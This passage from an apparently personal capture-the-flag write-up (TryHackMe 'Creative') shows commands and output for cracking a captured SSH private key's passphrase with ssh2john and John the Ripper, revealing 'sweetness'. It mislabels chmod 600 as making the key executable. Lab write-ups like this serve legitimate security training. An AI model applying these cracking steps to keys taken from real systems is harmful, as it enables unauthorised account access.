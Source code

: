 ![Pasted image 20250730151622.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250730151622.png)

And we make it executable :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Creative]
└─$ chmod 600 id_rsa 
```

### SSH2John

We use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) on the key :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Creative]
└─$ ssh2john id_rsa > id_hash     
```

### JohnTheRipper

We use [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) now to crack the password :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Creative]
└─$ john id_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetness        (id_rsa)     
1g 0:00:00:10 DONE (2025-07-30 15:21) 0.09881g/s 94.86p/s 94.86c/s 94.86C/s chichi..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
